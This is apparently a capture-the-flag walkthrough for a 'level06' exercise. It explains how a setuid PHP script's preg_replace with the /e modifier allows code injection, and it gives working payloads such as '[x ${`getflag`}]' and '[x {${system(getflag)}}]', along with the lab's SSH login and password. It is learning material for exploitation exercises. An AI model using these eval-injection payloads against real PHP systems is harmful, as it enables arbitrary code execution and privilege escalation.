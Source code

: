 # 06 

###### tags: `regex` `PHP`

cmd list

```b
> file ./level06
> cat level06.php 
```

Login

```b
> ssh level06@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: viuaaale9huek52boumoomioc
> ls -l
-rwxr-x---  1 flag06 level06  356 level06.php
-rwsr-x---+ 1 flag06 level06 7503 level06
   ^ rws → Owner has r|w|x+s permissions
     ie. any user to exec the bin will exec it as "flag06"
```

There are 2 files.

First one is a __PHP__ file <br>
The other is a binary, the source code of which could be the PHP

```b
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

Function `y` filters m twice

```b
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m); 👈 both subs are trivial
  return $m;
}
```

Function `x`:

`function x` filters `$y` ie. `arg[1]` \
`function x` also disregards `$z` ie. `arg[2]`
1. `preg_replace`'s syntax is : 
    - `preg_replace( pattern, replacement_string, source_string )`
2. Pattern - `"/(\[x (.*)\])/e"` 
    - Test if anything matches `/(\[x \])/e` - Outer brackets : the 1st capture group
      - _eg._ `"[x something like this]"` 
    - Test if anything matches `[x (.*)]` - Inner brackets gives the 2nd capture group
      - _eg._ `"[x $(whoami)]"` gives `$(whoami)`
    - the `/e` modifier evaluates `"y(\"\\2\")"` ie. the replacement string 
3. Replacement - `"y(\"\\2\")"`
    - The 2nd captured group will go `y( *HERE )` 
    - `/e` evals the `y( *HERE )` as PHP code 
      - `/e` is injectiion-attack-prone and has been reprecated long ago


```b
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a); 👈 the subs are trivial
  return $a;
}
```

Our goal
- `file_get_contents($argv[1])` depends on ___content___ of the file 
- so `argv[1]` to  a FILE 
- it should be oneline in form of `[x `_cap_`]`

Solution

```b
# get the _token/flag_ in there to be captured and printed out
  # we can use shell_exec() system() exec() 
  # or simply use backticks ~ command substitution
    # `command` is eqv. to $(command) ~ it exec the cmd and replaces it w. the output
# `getflag` called
# ${`getflag`} - get the ret
# [x ${`getflag`}] - framed in this form
# echo $(oneliner) > /tmp/temp - push it to a FILE

> echo "[x $(getflag)]" > /tmp/temp
    OR
> echo '[x ${`getflag`}]' > /tmp/temp
    OR
> echo '[x {${system(getflag)}}]' > /tmp/tmp
    THEN
> ./level06 /tmp/temp
```

Reverse logic:

- `y($m)` gets called via `/e`
- if `$m` is `getflag`, `y($m)` will return the flag w. substitution
- `$m` should be the 2nd capture group in:
  - `'/(\[x (.*)\])/e'`
- `$m` should have this form 
  - `"[x $(getflag)]"`
- `$()` is shell synatx, it valid equivalents in PHP are ``` `` ``` and `(exec())`
  - ```'[x `getflag`]'```
  - `'[x (exec(getflag))]"`
- we also need to retrieve the output
  - ```'[x ${`getflag`}]'```
  - `'[x ${(exec(getflag))}]'`
- attention: 
  - `'[x ${(exec(getflag))}]'` and not
  - `"[x ${(exec(getflag))}]"` bc. `""` allows expansion

---

# ___GOLF___

# 06 

###### tags: `regex` `PHP`

Login

```b
> ssh level06@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: viuaaale9huek52boumoomioc
> ls -l
-rwxr-x---  1 flag06 level06  356 level06.php
-rwsr-x---+ 1 flag06 level06 7503 level06
   ^
```

PHP

```b
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y); 👈 1/ $y ie. $argv[1] should be a file
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 👈 2/ (.*) get called and the output goes to f()
  $a = preg_replace("/\[/", "(", $a); 
  $a = preg_replace("/\]/", ")", $a); 👈 both lines trivial
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

### `$a` should have this form `"/(\[x (.*)\])/e"`

```b
    Either one of
echo "[x $(getflag)]" > /tmp/temp
echo '[x ${`getflag`}]' > /tmp/temp
echo '[x ${(exec(getflag))}]' > /tmp/temp
echo '[x {${system(getflag)}}]' > /tmp/tmp
    THEN
./level06 /tmp/temp
```

- attention: 
  - `'[x ${(exec(getflag))}]'` and not
  - `"[x ${(exec(getflag))}]"` bc. `""` allows expansion

